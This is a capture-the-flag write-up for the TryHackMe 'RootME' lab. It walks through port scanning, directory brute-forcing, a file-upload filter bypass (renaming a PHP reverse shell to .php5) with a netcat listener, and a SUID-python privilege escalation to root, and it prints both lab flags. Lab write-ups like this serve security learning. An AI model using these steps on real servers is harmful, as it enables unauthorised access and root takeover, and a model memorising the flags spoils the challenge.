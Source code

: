 # RootME - tryhackme
# By 0xRar

## Scanning
```
nmap -T4 -A -p- MACHINE_IP
Nmap scan report for MACHINE_IP
Host is up (0.15s latency).
Not shown: 65464 closed ports, 69 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Dir bruteforce:

`gobuster dir -u MACHINE_IP -w /usr/share/wordlists/dirb/common.txt`

===============================================================
```
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```

## Explotation
```
http://MACHINE_IP/panel/   has a file upload, i already know what im gonna do.

Lets listen on our port in my case its 4444
`nc -lvnp 4444`

and lets upload our shell, and as i guessed its not going to work lets try to bypass the filter

lets change it to `RarShell.php5`

BOOOOM!!!! WE GOT IT, lets access our shell `http://MACHINE_IP/uploads/` and run it

find | grep "user.txt" to get our flag


flag : THM{y0u_g0t_a_sh3ll}

```

## Privilege Escalation

`find / -user root -perm /4000`

```
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo    this one looks interesting 
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
/usr/bin/python  this one looks interesting 
```

`./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

```
whoami
root

cd /root
```

Flag : **`THM{pr1v1l3g3_3sc4l4t10n}`**
